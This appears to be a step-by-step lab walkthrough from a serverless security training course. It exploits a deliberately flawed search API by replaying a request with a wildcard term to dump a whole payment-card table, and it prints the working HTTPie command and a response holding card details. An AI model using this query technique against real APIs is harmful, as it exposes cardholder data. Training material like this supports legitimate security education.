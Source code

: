 ## Exploit based on IAM Permission Flaw

##### Step 1:

* Open browser

![](img/open-browser.png)


##### Step 2:

* open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploader application.

![](img/login-page.png)

##### Step 3:

* Click on `Search` icon to search for information.

![](img/search-icon.png)


##### Step 4:

* Click `Shift + f9` or right click on top of the browser and click on `Web Developer` to select the `Networks` tab.

![](img/local-storage.png)


##### Step 5:

* Search user related info

    **Note:** Copy the URL

![](img/network.png)

##### Step 6:

* Click on the `Params` tab

    **Note:** Copy the json payload

![](img/param.png)



##### Step 7:

* Open Terminal

![](img/Open-Terminal.png)


##### Step 8:

* Run `http POST https://a2to86jcrb.execute-api.us-east-1.amazonaws.com/api/bad_dynamo_search <<<'{
        "db": "payment-cards",
        "search_field": "card_number",
        "search_operator": "GT",
        "search_term": "*"
    }'` to get all the payment card information from the database.
    
    ```commandline
    http POST https://a2to86jcrb.execute-api.us-east-1.amazonaws.com/api/bad_dynamo_search <<<'{
            "db": "payment-cards",
            "search_field": "card_number",
        "search_operator": "GT",
        "search_term": "*"
    }'
    HTTP/1.1 200 OK
    Access-Control-Allow-Headers: Authorization,Content-Type,X-Amz-Date,X-Amz-Security-Token,X-Api-Key
    Access-Control-Allow-Origin: *
    Connection: keep-alive
    Content-Length: 2169
    Content-Type: application/json
    Date: Tue, 09 Oct 2018 01:32:53 GMT
    Via: 1.1 aa89533ad2ec5e0edba466c9920bd000.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: X8szCarsQAv9oUWSw82v9hpsA-QyfvP8PlDA1cIIgocKOITW2661dg==
    X-Amzn-Trace-Id: Root=1-5bbc0545-5a84835cd05bd8b4bd31a502;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: OeXCzHEgoAMFqSw=
    x-amzn-RequestId: 3db038ff-cb63-11e8-92a8-adaf88305995
    
    {
        "search_results": [
            {
                "card_number": {
                    "S": "4994684175713024"
                },
                "cardholder": {
                    "S": "Amanda Smith"
                },
                "exp_date": {
                    "N": "523"
                }
            }
            ]
            }
    ```
    
 

